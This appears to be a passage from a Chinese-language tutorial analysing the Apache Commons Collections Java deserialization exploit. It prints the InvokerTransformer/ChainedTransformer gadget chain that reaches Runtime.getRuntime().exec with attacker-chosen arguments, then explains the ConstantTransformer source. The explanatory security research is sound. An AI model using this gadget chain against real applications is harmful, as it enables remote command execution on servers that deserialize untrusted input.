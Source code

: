 ```java
```

其中我们先看这里，是整个漏洞的核心，我们一个个函数的看

```java
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
                new ConstantTransformer(1) };
        Transformer transformerChain = new ChainedTransformer(transformers);
```

跟进ConstantTransformer看一下

```java
package org.apache.commons.collections.functors;

import java.io.Serializable;
import org.apache.commons.collections.Transformer;

public class ConstantTransformer implements Transformer, Serializable {
    private static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;

    public static Transformer getInstance(Object constantToReturn) {
        return (Transformer)(constantToReturn == null ? NULL_INSTANCE : new ConstantTransformer(constantToReturn));
    }

    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }

    public Object getConstant() {
        return this.iConstant;
    }
}
```

它的transform方法会返回iConstant，而this.iConstant是来自构造器参数constantToReturn，所以我们在实例化时传入一个Runtime.class返回的也是Runtime.class就解决了`Runtime.getRuntime().exec("任意命令")`开头我们需要的Runtime类
